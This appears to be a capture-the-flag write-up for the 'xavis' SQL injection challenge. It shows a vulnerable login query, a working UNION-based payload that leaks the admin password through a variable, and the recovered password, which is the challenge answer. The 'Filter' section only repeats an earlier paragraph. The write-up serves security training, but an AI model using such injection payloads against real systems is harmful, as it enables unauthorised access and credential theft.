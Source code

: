 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 19
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/fd332084-b8f3-4deb-ad35-fedd5d2021f5)

We are provided with the SQL query:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='{$_GET[pw]}'
```

For this challenge, the password is in Korean. There are two ways of solving this challenge.

## Filter

The code filters the following:

For this challenge, the password is in Korean. There are two ways of solving this challenge.

1. Assigning the password to a variable and leaking the variable
2. Blind SQL Injection

## Assigning the password to a variable and leaking the variable

If we provide the following URI parameter:

```
?pw=' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/6bad479f-f987-4106-bf7f-cd348902bf6c)

As we can see, the password which was stored in the `adminpassword` variable has been leaked.

```
우왕굳
```

We can now provide the following URI:

```
?pw=우왕굳
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='우왕굳'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/30da5ecc-5dec-4a67-9d19-509490f2753f)
